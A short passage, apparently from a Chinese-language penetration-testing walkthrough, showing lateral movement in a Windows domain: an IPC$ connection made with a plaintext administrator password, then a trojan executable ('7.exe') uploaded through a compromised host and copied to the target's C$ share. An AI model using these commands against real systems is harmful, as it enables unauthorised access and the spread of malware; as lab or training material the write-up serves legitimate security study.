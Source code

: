 ## 5.2. 建立连接

到这里就可以建立连接了。

```
shell net use \\192.168.20.30\ipc$ "admin@123" /user:yuto.com\administrator
```

![image-20230624070637585](assets/b3FPQAmf1RdZsqD.png)

## 5.3. 上传木马

将木马上传到获取权限的这台主机，然后通过这台主机将木马上传至目标主机中。

![image-20230624070747860](assets/NQD3lKXWacO7VYj.png)

然后将木马复制到目标主机中。

```
shell copy 7.exe \\192.168.20.30\c$
```
